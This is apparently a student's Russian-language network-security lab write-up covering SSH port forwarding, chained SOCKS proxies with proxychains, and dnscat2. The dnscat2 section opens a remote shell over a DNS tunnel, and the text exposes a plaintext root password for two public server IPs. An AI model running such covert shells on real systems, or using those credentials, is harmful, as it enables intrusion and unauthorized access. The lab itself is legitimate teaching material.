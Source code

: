 3-ья лабораторная

Пароль для SSH серверов: mmthebest

Пункт 1. Установление NfL соединения между двумя хостами

Окно 1:
$ ssh root@95.217.178.35
Password: mmthebest
$ python2 -mSimpleHTTPServer 1234

Окно 2:
$ ssh -NfL localhost:1234:95.217.178.35:1234 root@135.181.38.41
Password: mmthebest

Для демонстрации NfL соединения можно зайти на localhost:1234 в браузере

Пункт 2. ProxyChains

$ sudo apt install proxychains
(Nano предустановлен на Kali, но можно использовать и другой редактор)
$ nano /etc/proxychains.conf

Начиная с [ProxyList], файл нужно переписать в соответствии с последовательностью Proxy:

  [ProxyList]
  # add proxy here ...
  # meanwile
  # defaults set to "tor"

  # socks4 127.0.0.1 9050

  socks5 127.0.0.1 9999
  socks5 95.217.178.35 9999

Окно 1:
$ ssh -NfD 0.0.0.0:9999 root@95.217.178.35

Окно 2:
$ ssh root@95.217.178.35
$ ssh -NfD 0.0.0.0:9999 root@135.181.38.41

Для демонстрации proxychains следует получить через цепочку прокси-серверов какую-либо страницу

К примеру, ip-адрес:

Окно 1:
$ proxychains curl 2ip.ru

Пункт 3. dnscat2

Окно 1:
$ ssh root@95.217.178.35
$ cd dnscat2
$ cd server
$ RUBYOPT='-W:no-deprecated -W:no-experimental' ruby dnscat2.rb --dns host=95.217.178.35, port=53

Окно 2:
$ ssh root@135.181.38.41
$ cd dnscat2
$ cd client
$ ./dnscat --dns server=95.217.178.35

Окно 1:

$ session -i 1
$ shell
$ session -i 2
